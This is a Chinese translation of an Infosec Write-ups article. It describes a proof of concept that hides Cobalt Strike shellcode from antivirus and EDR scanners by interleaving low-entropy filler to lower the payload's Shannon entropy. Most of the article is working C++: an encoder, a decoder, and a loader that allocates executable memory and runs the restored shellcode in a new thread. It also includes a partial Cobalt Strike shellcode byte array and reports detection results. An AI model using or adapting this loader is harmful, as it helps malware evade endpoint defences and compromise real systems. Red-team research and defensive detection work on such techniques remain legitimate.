


# 你越容易被预测，就越不容易被检测到——通过香农编码隐藏恶意外壳代码

> 原文：<https://infosecwriteups.com/the-more-predictable-you-are-the-less-you-get-detected-hiding-malicious-shellcodes-via-shannon-111a83fe60e4?source=collection_archive---------2----------------------->

# 你越容易被预测，就越不容易被发现

最近，我在 Github 上发表了一篇小的 PoC 文章，讲述了一种通过降低 PE 的熵来隐藏恶意外壳代码的方法。

熵是对一组数据(这里是外壳代码)随机性的度量。熵越高，数据越随机。香农熵是一种算法，将产生 0 到 8 之间的结果，其中 8 表示数据中没有模式，因此它非常随机，0 表示数据遵循一种模式。

# 高熵外壳代码的问题

恶意代码的熵随着其被打包或混淆而增加。事实上，研究表明，熵可被用来基于其熵成功地区分非恶意代码和恶意代码。根据[思科](https://umbrella.cisco.com/blog/using-entropy-to-spot-the-malware-hiding-in-plain-sight) : *的说法，开发一个图像文件熵值正常范围的数据库将有助于威胁研究人员和事件响应团队更快地识别那些发生可疑数据传输的文件。*恶意样本的熵值超过 7.2，而正常软件的熵值为 4.8 到 7.2。在 30%的恶意样本中，熵将接近 8，而只有 1%的无害代码具有该值。超过一半的恶意样本的熵将超过 7.2，但每十个正常程序中只有一个会有这种程度的熵。总而言之，不是所有的恶意样本(尽管大多数会)都具有高熵，也不是所有的有效程序都具有低熵(但大多数会)。打包是减少可执行文件大小和保护资源的真正策略，许多程序都利用了这一点，这一事实解释了为什么合法样本可以具有高熵。

# 避免高熵算法

在我的研究中，我注意到默认的 Cobalt Strike 外壳代码的熵值是 7.4，很高！通过使用不增加熵的算法(如 XORing 和 Base64 编码)，有许多方法可以混淆代码。我认为最后一个更方便，但这并不意味着它是完美的。XORing 和 Base64 编码可以很容易地被解密，以揭露代码的真正目的。也可以直接创建签名，既可以针对 xor 也可以针对 Base64 编码的数据。最后，一些反恶意软件解决方案甚至可以在分析的仿真阶段解码这些简单的方案。

# 解决方案

如果随机性是问题所在，为什么不尝试通过引入减少不可预测性从而减少全局熵的模式来掩盖有害的混淆代码呢？以这种方式，你不局限于使用基本技术来混淆代码，并保持不被反恶意软件解决方案检测到；此外，混淆代码可以是任何大小。

# 概念验证的工作原理

其概念是将数组分成块，并在每个块之间插入低熵模式的字节。当样本运行时，我们必须在内存中重建原始有效载荷，在这个阶段绕过高熵代码的静态检测。还值得注意的是，要插入的低熵代码可以遵循多种模式，并且插入的数量可以变化，因此它可以用于规避静态签名检测。第二步是将高熵字节块与低熵字节块合并。因为，毕竟，我们需要将混淆的代码恢复到它最初的样子，以便进行去混淆步骤，第三个作业将通过删除低熵模式来恢复原始的字节数组。

```
#include <cstdio>
#include <Windows.h>
#include "Entropy.h"

using namespace std;

BYTE payload[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc8,0x00,0x00,0x00,0x41,0x51,0x41,0x50 ... 0x36,0x30,0x00,0x5e,0x2e,0x78,0x90 }; // Simulated high entropy code
constexpr int number_of_chunks = 5; // Number of chunks. You can randomize this too.
constexpr int chunk_size = sizeof payload / number_of_chunks; // Size of each chunk
constexpr int remaining_bytes = sizeof payload % number_of_chunks; // Remaining bytes after the last chunk is processed
BYTE lowEntropyShellcode[sizeof payload * 2 - remaining_bytes] = {0}; // array of bytes size calculation to contain the original high entropy code plus the low entropy inserts
constexpr int payload_size_after_entropy_reduction = sizeof payload * 2; // Total size of the reduced entropy payload
```

请注意，所有这些计算都存储在全局变量中，高熵代码也位于代码的全局区域中，以确保它将存储在可执行文件的数据部分，但它也可以完全位于资源部分，并在运行时加载。您甚至可以将高熵字节模式存储在 main 函数中，但是该模式将存储在。文本部分，它将被加载到堆栈中，而不是堆中，因为它存储在数据部分或资源部分。这很重要，因为堆栈不能处理非常大的字节数组，而且当数组太大时，一些编译器会抱怨这一点。

下一个任务是将高熵代码分成块，并添加低熵模式:

```
PBYTE shannonEncode(PBYTE rawShellcode)
{
	constexpr int max_n = 0xEF; //239
	constexpr int min_n = 0x01; //1
	char random_hex[chunk_size];
	int encodedShellcodeOffset = 0;
	int shellcodeOffset = 0;
	const BYTE new_n = static_cast<BYTE>((rand() % (max_n + 1 - min_n) + min_n));
	for (char& i : random_hex)
	{
		i = static_cast<char>(new_n);
	}
	for (size_t i = 0; i < number_of_chunks; i++)
	{
		for (size_t j = 0; j < chunk_size; j++)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = rawShellcode[shellcodeOffset];
			encodedShellcodeOffset++;
			shellcodeOffset++;
		}
		for (const char k : random_hex)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = k;
			encodedShellcodeOffset++;
		}
	}
	if (remaining_bytes)
	{
		for (size_t i = 0; i < sizeof remaining_bytes; i++)
		{
			lowEntropyShellcode[encodedShellcodeOffset++] = rawShellcode[shellcodeOffset++];
		}
	}
	for (int count = 0; count < sizeof(lowEntropyShellcode); count++) {
		printf("0x%02X,", lowEntropyShellcode[count]);
	}
	return lowEntropyShellcode;
}
```

让我们用图表来解释一下。假设属于高熵块的字节由字母“H”表示，属于低熵块的低熵字节由字母“L”表示，其余从未修改的字节由字母“R”表示



# 简单外壳代码注入 PoC

为了在进程中注入外壳代码，通过使用[解码器脚本](https://github.com/kleiton0x00/Shelltropy/blob/main/shannonDecoder.cpp)，将这个低熵外壳代码恢复到其原始状态(高熵外壳代码)是很重要的。解码后，使用 WinAPI 或 Syscalls 将其注入到所需的进程中。一个简单的 [Syscall PoC](https://github.com/kleiton0x00/Shelltropy/blob/main/Shelltropy/SyscallsExample/SyscallsExample/SyscallsExample.cpp) 已经在我的 github repo 上发布了，这也是我通常推荐使用的，但是如果你觉得难以理解/使用，下面的 PoC 是一个带有 WinAPI 的普通外壳代码注入技术，更容易熟悉:

```
#include <windows.h>
#include <stdio.h>

//low entropy encoded CS Shellcode (size:891*2)
unsigned char payload[] = { 0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC8,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,...,0x2A,0x2A,0x2A,0x2A,0x90 };
constexpr int cs_shellcode_length = 891; //the default length of high entropy default shellcode in cobalt strike. Change it if you are using another C2
constexpr int number_of_chunks = 5; //make sure it is the same number of chunks during the encoding process
constexpr int chunk_size = cs_shellcode_length / number_of_chunks;
constexpr int remaining_bytes = cs_shellcode_length % number_of_chunks;
constexpr int payload_size_after_entropy_reduction = cs_shellcode_length * 2;

PBYTE shannonDecode(PBYTE high_ent_payload)

{
    constexpr int payload_size = (payload_size_after_entropy_reduction + 1) / 2;
    BYTE lowEntropyPayload[payload_size_after_entropy_reduction] = { 0 };
    memcpy_s(lowEntropyPayload, sizeof lowEntropyPayload, high_ent_payload, payload_size_after_entropy_reduction);
    static BYTE restored_payload[payload_size] = { 0 };
    int encodedShellcodeOffset = 0;
    int shellcodeOffset = 0;

    for (size_t i = 0; i < number_of_chunks; i++)
    {
        for (size_t j = 0; j < chunk_size; j++)
        {
            restored_payload[shellcodeOffset] = lowEntropyPayload[encodedShellcodeOffset];
            encodedShellcodeOffset++;
            shellcodeOffset++;
        }

        for (size_t k = 0; k < chunk_size; k++)
        {
            encodedShellcodeOffset++;
        }
    }

    if (remaining_bytes)
    {
        for (size_t i = 0; i < sizeof remaining_bytes; i++)
        {
            restored_payload[shellcodeOffset++] = high_ent_payload[encodedShellcodeOffset++];
        }
    }
    return restored_payload;
}

int main() {
    //decode the low-entropy shellcode
    const auto shellcode = shannonDecode(payload);

    // here starts the Process Injection
    // Alloc memory
    LPVOID addressPointer = VirtualAlloc(NULL, cs_shellcode_length, 0x3000, 0x40);
    // Copy shellcode
    RtlMoveMemory(addressPointer, shellcode, cs_shellcode_length);
    // Create thread pointing to shellcode address
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)addressPointer, NULL, 0, 0);
    // Sleep for a second to wait for the thread
    Sleep(1000);
    return 0;
}
```

# 熵结果

**注:**以下结果仅用 CS Shellcode 测试。

~ Raw 默认钴击外壳代码
(高熵)正常: **7.062950**
(低熵)编码: **4.527140**

~ XORed 钴击外壳代码
(高熵)正常: **4.583139**
(低熵)编码: **3.278284**

# AV/EDR 扫描结果

高熵(左侧)与低熵(右侧)默认 CS 外壳代码与 Syscalls (Syswhispers2)集成:



# 不足之处

编码时，外壳代码的大小将增加 2 倍，使蓝队/恶意软件分析更容易检测到这种编码的外壳代码。

# 摘要

减少混淆的恶意软件代码的熵是简单的；它可以用来躲避检测，除此之外，它还可以提供一些额外的保护来防止签名的形成。正如 [Cyberbit](https://www.cyberbit.com/blog/endpoint-security/malware-terms-code-entropy/) 所说:*代码熵越低，代码被混淆的可能性就越低。*这里描述的代码可以被修改来构建解决方案，帮助避免使用熵作为恶意软件检测方法。使用替代的数学方程和不同大小的低熵代码块来创建更好的低熵字节模式可以提高该方法的可靠性。

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。加入我们的每周简讯，以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*[*https://weekly.infosecwriteups.com/*](https://weekly.infosecwriteups.com/)